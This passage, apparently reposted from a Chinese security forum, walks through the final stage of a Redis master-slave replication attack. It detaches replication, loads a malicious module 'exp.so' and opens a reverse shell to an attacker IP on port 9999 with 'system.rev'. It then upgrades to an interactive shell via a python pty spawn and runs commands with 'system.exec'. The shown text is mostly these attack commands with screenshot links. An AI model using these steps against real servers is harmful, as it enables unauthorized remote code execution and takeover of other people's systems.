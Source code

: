 ```c
slaveof NO ONE
```

```c
module load ./exp.so //加载写入的so文件模块module list//ັ查看恶意的so文件有没有写入成功
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e15fa0fd7d4ee4c996899cf0fa9febcbce6e769f.png)

执行反弹shell

```c
system.rev 192.168.175.161 9999
```

就是没有回显

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9a3bc171664baf0b826c38936e96cf1b7a011621.png)

然后去攻击机那边进行查看

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-2b69f7ccace7121a26e68329f3e48b222dc8b71e.png)

可以看到已经拿到了

python进入pty

```c
python3 -c &amp;quot;import pty;pty.spawn('/bin/bash')&amp;quot;
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-9bc1b34f76486032c9f0b34a15670bd8c150f1e1.png)

还可以用另外一种方式

直接执行命令

```c
system.exec &amp;quot;id&amp;quot;
```

![在这里插入图片描述](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-108b2c25227bf52f1b639378fdeab45f90e3346a.png)  
文章转载于：<https://www.freebuf.com/articles/web/281161.html>